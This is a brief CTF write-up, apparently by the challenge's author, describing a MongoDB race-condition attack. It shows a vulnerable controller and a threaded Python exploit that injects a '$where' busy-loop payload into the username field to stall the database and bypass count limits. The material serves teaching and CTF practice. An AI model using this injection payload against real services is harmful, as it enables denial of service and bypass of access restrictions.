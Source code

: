 ```yaml
---
title: MongoDB Race Condition payload
date: 2024-01-30
categories: [Payload]
tags: [Write up]
---
```


## Information 
Target: `MongoDB`  
Vulnerability: `Race Condition`

## Desc
MongoDB Race Condition Attack with db lock.  

## Example
### Code
```javascript
// admin.controller.ts
@Post('list')
async getFlagList(@Body() listDto: ListDto): Promise<FlagDocument[]> {
	return await this.adminService.getFlagList(listDto.username);
}
```
### Exploit
```python
import threading
import json

# Logic Vulnerability - Database Lock
def lock():
    res = requests.post(f"{url}/admin/list", headers=auth,
                        json={"username": '''admin", "$or": [{"dummy": "dummy"},{"$where": "date=new Date();do{cur=new Date();}while(cur-date<5000) + 1 || true"}], "":"'''})
    print(res.text)

threads = []
for i in range(10):
    thread = threading.Thread(target=lock)
    threads.append(thread)
    thread.start()
```
It takes a long time to count the number of existing documents in the DB, so logic such as number restrictions can be bypassed.

## Comment
This is part of the solution for the challenge I made. ( For dreamhack X-mas CTF )  
[Challenge Link](https://dreamhack.io/wargame/challenges/1061)
[Ref](https://www.hahwul.com/2016/01/12/web-hacking-nosql-injection-mongodb/)
